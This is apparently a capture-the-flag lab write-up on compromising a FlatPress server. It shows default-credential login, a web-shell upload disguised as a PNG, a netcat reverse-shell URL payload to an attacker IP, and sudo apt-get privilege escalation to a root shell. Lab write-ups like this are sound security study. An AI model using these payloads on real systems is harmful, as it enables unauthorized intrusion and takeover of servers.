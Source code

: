 #Pwned! 
```IP
192.168.102.29
```
# Enumeration

## HTTP 8089
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241202100033.png?raw=true)
admin:password credentials work
an authenticated RCE vulnerability is described here
https://github.com/flatpressblog/flatpress/issues/152

# Exploitation



```
Content-Disposition: form-data; name="upload[]"; filename="test.png"

Content-Type: image/png



PNG


<?php

system($_REQUEST['cmd']);

?>
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241202095926.png?raw=true)
we get RCE
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241202100229.png?raw=true)

the following payload gives us a revshell
```
http://192.168.102.29:8089/fp-content/attachs/test.php?cmd=busybox%20nc%20%20192.168.45.194%204444%20-e%20sh
```

# PrivEsc

## Manual
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241202100449.png?raw=true)
```
sudo -l
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241202100512.png?raw=true)
https://gtfobins.github.io/gtfobins/apt-get/
```
sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241202100803.png?raw=true)

## Automated

### Peass
### Mimikatz

# Lateral Movement


